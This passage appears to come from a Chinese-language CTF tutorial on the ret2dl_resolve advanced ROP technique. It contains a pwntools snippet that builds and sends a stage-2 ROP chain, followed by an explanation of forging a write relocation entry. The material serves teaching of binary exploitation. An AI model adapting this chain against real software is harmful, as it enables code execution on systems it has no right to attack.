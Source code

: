 ```python
  rop.raw(plt0)
  rop.raw(write_index)
  rop.raw('bbbb') # fake ret addr of write
  rop.raw(1)
  rop.raw(base_stage + 80)
  rop.raw(len(sh))
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh)
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain())
  r.recv()
```

![Alt](img/wiki-AdvancedRop4.png)

#### STAGE3

同样控制 dl_resolve 函数中的 index_offset 参数，不过这次控制其指向我们伪造的 write 重定位项。
pwntools 本身并不支持对重定位表项的信息的获取，通过readelf查看

![Alt](img/wiki-AdvancedRop5.png)
